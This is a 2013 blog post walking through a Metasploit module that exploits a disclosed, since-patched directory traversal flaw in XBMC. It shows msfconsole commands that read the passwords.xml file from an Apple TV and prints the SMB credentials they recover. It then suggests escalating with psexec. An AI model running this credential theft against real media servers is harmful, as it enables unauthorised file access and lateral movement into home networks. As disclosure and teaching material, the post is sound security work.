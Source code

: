 ```yaml
---
layout: post
title: "XBMC Traversal Metasploit Module"
date: 2013-02-25T15:32:00-05:00
comments: true
categories:
 - directorytraversal
 - metasploit
 - hacking
---
```


## Background

I was talking in [Intern0t](irc://chat.freenode.net:6667/intern0t) several months ago. [AcidGen](https://twitter.com/Acidgen), from [IOActive](http://www.ioactive.com) mentioned that he found a bug in [XBMC](http://www.xbmc.org). I use [XBMC](http://www.xbmc.org) quite a bit at home, on various platforms, since it's extremely wife-friendly. I hit him up, and we started talking. We had a nice Skype conversation, where we discussed possible platforms that were affected, and future exploits that we'd like to find. Since I had a jailbroken [Apple TV 2](https://www.apple.com/appletv) and [RaspberryPi](http://www.raspberrypi.org), I told him that I could test those platforms and help out. 

An [official disclosure](http://www.ioactive.com/pdfs/Security_Advisory_XBMC.pdf) was released, detailing the directory traversal vulnerability. The [XBMC](http://www.xbmc.org) team was able to make a [fix](https://github.com/xbmc/xbmc/commit/bdff099c024521941cb0956fe01d99ab52a65335), and the new version 12 is not vulnerable.

## Why does this vulnerability matter?

When talking with the [XBMC](http://www.xbmc.org), they seemed to play off the vulnerability, because they believed nobody would ever expose this service to a public network. However, a quick [ShodanHQ](http://www.shodanhq.com/search?q=xbmc) search shows that people are exposing it. But you may say, "Matt, this is only a directory traversal vulnerability, what are you going to do, steal someone's MP3s?". The issue here, lies in that if you can read any file on the system, that may include password files, such as /etc/passwd or even /etc/shadow if the service runs as root. What makes this even worse, is that due to how XBMC has to pass credentials to a fileserver, it stores the credentials in plain text. This gives an attacker a <i>huge</i> advantage. They now have valid credentials on at least one system. If the system has SMB exposed as well, it could easily be game-over.

## Let's see the exploit...

I don't know why it took so long, but I finally finished the MSF module for this vulnerability. It can be found [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/gather/xbmc_traversal.rb). The usage is pretty simple. Here is a sample exploitation against an [Apple TV 2](https://www.apple.com/appletv).

As usual, watch the pretty ASCII-art go by, and use the module. 

```
420-1572-man:gather mandreko$ msfconsole
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v4.6.0-dev [core:4.6 api:1.0]
+ -- --=[ 1048 exploits - 590 auxiliary - 174 post
+ -- --=[ 275 payloads - 28 encoders - 8 nops

msf > use auxiliary/gather/xbmc_traversal
msf  auxiliary(xbmc_traversal) >
</pre>Check out the options. You'll see the username and password that need to be set (however it's often defaulted to "xbmc", as well as the host, and file to disclose. 
<pre>msf  auxiliary(xbmc_traversal) > show options

Module options (auxiliary/gather/xbmc_traversal):

   Name      Current Setting                                                      Required  Description
   ----      ---------------                                                      --------  -----------
   DEPTH     9                                                                    yes       The max traversal depth
   FILEPATH  /private/var/mobile/Library/Preferences/XBMC/userdata/passwords.xml  no        The name of the file to download
   PASSWORD  xbmc                                                                 yes       The password to use for the HTTP server
   Proxies                                                                        no        Use a proxy chain
   RHOST                                                                          yes       The target address
   RPORT     8080                                                                 yes       The target port
   USERNAME  xbmc                                                                 yes       The username to use for the HTTP server
   VHOST                                                                          no        HTTP server virtual host

msf  auxiliary(xbmc_traversal) >
```

Go ahead and set the RHOST to the XBMC server. 

```
msf  auxiliary(xbmc_traversal) > set rhost 192.168.1.102
rhost => 192.168.1.102
msf  auxiliary(xbmc_traversal) >
```

Lastly, run the exploit 

```
msf  auxiliary(xbmc_traversal) > run

[+] File saved in: /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml
[*] Auxiliary module execution completed
msf  auxiliary(xbmc_traversal) >
```

You can see this was successful. It saved the file locally, and added notes in [Metasploit](http://www.metasploit.com). Just to verify the findings, you can read the file it saved. 

```
msf  auxiliary(xbmc_traversal) > cat /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml
```

```
[*] exec: cat /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml

<passwords>
    <path>
        <from pathversion="1">smb://192.168.1.2/Movies</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/Movies/</to>
    </path>
    <path>
        <from pathversion="1">smb://192.168.1.2/tv</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/tv/</to>
    </path>
    <path>
        <from pathversion="1">smb://192.168.1.2/Music</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/Music/</to>
    </path>
</passwords>
msf  auxiliary(xbmc_traversal) >
```

And there you have it. You now have valid credentials on that fileserver. You could start escalating with psexec or other methods. Half the battle is already over.